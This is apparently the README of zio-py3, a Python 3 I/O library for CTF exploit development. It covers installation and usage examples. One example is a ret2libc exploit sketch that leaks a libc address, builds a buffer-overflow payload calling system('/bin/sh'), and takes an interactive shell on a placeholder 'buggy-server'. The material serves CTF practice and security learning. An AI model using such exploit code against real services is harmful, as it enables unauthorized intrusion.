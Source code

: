 
# zio-py3

![Python package](https://github.com/taoky/zio/workflows/Python%20package/badge.svg)

Original `zio` project: <https://github.com/zTrix/zio>, by [zTrix](https://github.com/zTrix/)

This repository tries to turn `zio` into a Python 3 project (well `pwntools` is just too much heavyweight). It is still unstable now.

---

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')            # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

## License

[zio] use [SATA License](LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](LICENSE.txt) carefully.

## Dependency

 - Linux or macOS
 - Python 3.5+
 - termcolor (optional, for color support)
    - $ pip install termcolor

## Installation

This is a single-file project so in most cases you can just download [zio.py](https://raw.githubusercontent.com/taoky/zio/master/zio.py) and start using.

pip is also supported, so you can also install by running 

```bash
$ pip3 install termcolor # for color support, optional
$ pip3 install --upgrade git+https://github.com/taoky/zio.git
```

## Examples
 
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in range(1337):
    io.writeline(b'add ' + bytes([i]))
    io.read_until(b'>>')

io.write(b"add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + b"A" * 49 + b"\nshow\n")
io.read_until(b'A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = b'A' * 64 + l32(libc_system) + b'JJJJ' + l32(libc_binsh)
io.write(b'info ' + payload + b"\nshow\nexit\n")
io.read_until(b">>")
# We've got a shell;-)
io.interact()
```

## Document

To be added... Please wait...

### about line break and carriage return

Just don't read '\n' or '\r', use `readline()` instead

## Thanks (Also references)

 - [zio](https://github.com/zTrix/zio)
 - [pexpect](https://github.com/pexpect/pexpect) I (zTrix) borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/


[zio]:https://github.com/taoky/zio
